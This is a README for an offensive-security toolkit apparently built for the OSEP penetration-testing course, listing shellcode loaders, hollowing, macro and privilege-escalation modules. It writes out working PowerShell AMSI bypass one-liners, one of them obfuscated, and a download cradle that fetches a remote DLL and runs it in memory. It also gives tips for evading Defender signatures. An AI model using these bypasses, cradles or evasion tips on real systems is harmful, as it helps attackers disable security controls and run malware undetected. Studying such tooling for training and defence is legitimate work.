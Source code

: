 # OSEP Tools v2

A marriage between [Octoberfest/OSEP-Tools](https://github.com/Octoberfest7/OSEP-Tools) and [chvancooten/OSEP-Code-Snippets](https://github.com/chvancooten/OSEP-Code-Snippets). Thanks to those guys for putting in the real work.

I made some changes to the repos obviously. The easiest way to see what I've done is check the commits and my [Changelog](#changelog) section below. Basically what I did was just rewriting the documentation for the tools, and fix some small things here and there. I kept everything from OSEP-Tools, but only the projects that I deemed useful from OSEP-Code-Snippets.

Below is a small table of contents, some notes, my changelog, and then the disclaimer from the OG OSEP-Tools repo author.

## ToC

| Module | Description | SubModules |
| ------ | ----------- | ---------- |
| Active_Directory | Tools that may aid in AD enumeration/exploitation | `sql` |
| AppLocker_Bypass | Tools that may aid in bypassing AppLocker | `altBypass`, `psBypass` |
| Linux | Tools that aid in executing shells on a Linux box | `Linux_Shellcode_Encoders`, `Linux_Shellcode_Loaders` |
| Loaders_PEs | Tools that aid in loading EXEs (PEs) into memory, *from disk*, and executing | `nonDN2J.hta` |
| Loaders_Shellcode | Tools that aid in loading executable shellcode into memory from a remote server and executing | `clhollow`, `clinject`, `D_invoke`, `powerhollow.py`, `powerinject.py` |
| Macros | Tools that aid in executing shellcode either from memory or disk, from a word VBS Macro | `WordMacroRunner.vbs`, `WordMacroRunnerBasic.vbs`, `vbObfuscate.ps1`, `WordPsCradle.vbs`, `WordMacroInject.vbs` |
| Misc | Tools aiding in misc things like AV enumeration, dumping LSASS memory, and RCE leveraging win32 API | `AV_Detection`, `Fileless_Lateral_Movement`, `MiniDump` |
| Privilege_Escalation | Tools that aid in Windows PE | `PrinSpoofer.Net`, `shakeitoff`, `UACBypass.ps1` |


## Notes

### Powershell AMSI bypass:
  
- Win10
```ps1
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
  
- Win10+Win11  
```ps1
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
 
- Powershell Dll download cradle (replace ip/file name but leave rest as is when using D/invoke builder generated payloads!):
```ps1
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.195/basic.dll');$assem = [System.Reflection.Assembly]::Load($data);$class = $assem.GetType("dll.Class1");$method = $class.GetMethod("runner");$method.Invoke(0, $null)  
```

With Powerinject/Powerhollow make sure you think about whether you will be calling PS download cradle from powershell or cmd.exe and use the appropriate mode when constructing payloads.  When you call powershell.exe <cradle> from cmd.exe or even from another powershell window, you are creating a child process and while the embedded AMSI bypass may work for the child process the parent process will detect the child performing malicious actions and flag it.
  
- Do NOT use msfvenom encoders with any Hollowing tool. Causes problems.
  
### Injection tools

Your target for injection must be of the same integrity or lower than the method by which you have code execution.  I.e. if you are running in medium integrity you cannot inject into spoolsv, inject into explorer.
  
### Hollowing tools

Your target parent process for PPID spoofing must be of the same integrity or lower than the method by which you have code execution. I.e. if you are running in medium integrity you cannot specify spoolsv as the parent process.  Hollowed process will inherit the integrity of parent process.

### Discoveries

- Latest patch defender (Oct 2021) seems to have an "AND" based signature for `AutoOpen()`.  It can be used in macros for benign purposes but as soon as API calls are included (or at least things used in shellcode runners), it flags signature based detection.
- `RtlMoveMemory` API call is signatured.  Use `RtlFillMemory` instead. 
- Resolve `Amsi.dll` and the function calls within it either dynamically or heavily obfuscated when you go to patch it.
- Meterpreter shells after using Migrate seem to get caught by defender sometimes... Doesn't seem to be the case for straight up injection payloads.

### RESOURCES

- https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs
- https://secureyourit.co.uk/wp/2020/04/18/enumerating-process-modules-in-vba/

## To DOs

- Implement dynamic AMSI search capability as seen here: https://secureyourit.co.uk/wp/2019/05/10/dynamic-microsoft-office-365-amsi-in-memory-bypass-using-vba/
- Update `AV_Detection` scripts
    - Add in Discord scripts
- Patch the `powerhollow.py`, `powerinject.py` AMSI context bypasses to not fail when there isn't Amsi on the box
- Patch the `x64_met_staged_reverseHttps*` payloads in `/bins` bc they don't work. The tcp do.
- Compile all projects to single directory for ease of access
- Integrate more of OSEP-Code-Snippets
- Update `UACBypass.ps1`

## Changelog
- [11/25/2023](https://github.com/hackinaggie/OSEP-Tools-v2/commit/abf34fb4b0c761091ace1be6368c8bbdfcc3b2bb) - Initial commit; File structure changes, README updates/prettifying, repo merging
- [11/26/2023](https://github.com/hackinaggie/OSEP-Tools-v2/commit/76fed7aa2cf69408791aceeedb08edcc81898692) - Updated `WordMacroInject.vbs` to be able to inject when ran from a 32-bit Word process.
- [11/26/2023](https://github.com/hackinaggie/OSEP-Tools-v2/commit/f8758923045b5e6a49f3e97739f73c7cd5512c74) - Updated `WordMacroInject.vbs` to enumerate 32-bit processes and inject into a process other than `WINWORD.exe`.

# Disclaimer
> @Octoberfest7

All of these tools were developed for use in the OSEP course.  During development of them, as I learned more, in many cases I went above and beyond what the course taught because I figured "Why not build things against latest patch AV?".  That is not to say that all of the things in this repo are now beating Live Defender; however at one point or another, most of them were.  I hope that they may be of use to others, either for direct usage or to serve as inspiration for further work.

There is very little in terms of actual novel tradecraft here; it is a combination of a myriad of resources provided by people far smarter than I.  The majority of the heavy lifting I did here was towards automation.  I wanted an easy, standardized way to generate payloads for use in the OSEP course. All powershell and C# payloads contained within this repo utilize AES-256 encryption on the shellcode as well as a sleep statement for sandbox detection/evasion.

I offer no guarantees of any kind when using this stuff.  Nothing in here was designed for public release, I am doing so after many requests.  Make sure you read the notes provided on each tool in this README.
